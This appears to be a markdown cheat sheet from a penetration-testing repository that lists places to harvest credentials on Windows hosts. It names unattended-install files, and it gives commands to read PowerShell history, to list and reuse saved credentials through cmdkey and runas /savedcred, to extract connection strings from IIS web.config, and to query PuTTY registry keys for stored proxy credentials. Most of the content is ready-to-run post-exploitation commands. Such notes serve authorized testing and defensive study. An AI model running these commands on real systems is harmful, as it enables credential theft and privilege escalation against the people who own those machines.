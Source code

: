 # Windows Credential Harvesting Spots

## Unattended Windows Installations

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

## Credential Harvesting PowerShell History 

```PowerShell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

## Saved Windows Credentials

```PowerShell
# Check for any saved credentials
cmdkey /list

# Use saved credentials
runas /savedcred /user:<username> cmd.exe
```

## IIS Configureation

```PowerShell
# Find a database connection string on the IIS configuration file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## PuTTY

```PowerShell
# Retrieve stored proxy credentials using 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
